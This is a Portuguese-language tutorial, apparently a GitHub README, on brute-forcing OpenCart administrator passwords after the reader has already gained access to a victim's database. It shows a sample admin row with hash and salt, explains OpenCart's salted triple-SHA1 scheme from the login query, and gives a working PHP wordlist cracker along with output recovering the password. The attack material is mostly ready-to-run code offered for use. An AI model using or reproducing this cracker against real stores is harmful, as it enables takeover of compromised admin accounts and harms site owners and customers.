 # BRUTE FORCE OPENCART PASSWORDS TUTORIAL
Nesse pequeno tutorial eu explico como realizar ataques de força bruta em senhas opencart


## CENÁRIO:
- VOCÊ CONSEGUIU ACESSO AO BANCO DE DADOS OPENCART.
- VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@victim.com 	| 1      | admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa HASH com força bruta comum usando criptografia SHA1.

```php
<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma HASH igual a HASH do admin que você quer "desvendar".

## PORQUE?

SE OLHARMOS O CÓDIGO QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

TEMOS O SEGUINTE CÓDIGO:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

TRANSFORMANDO PRA NOSSA LINGUA FICA ALGO COMO:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar a strings da nossa wordlist e comparar com a HASH do ADMIN

###### Um script php de força bruta em senhas OpenCart Ficaria algo do tipo:


```php
<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
SENHA: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_
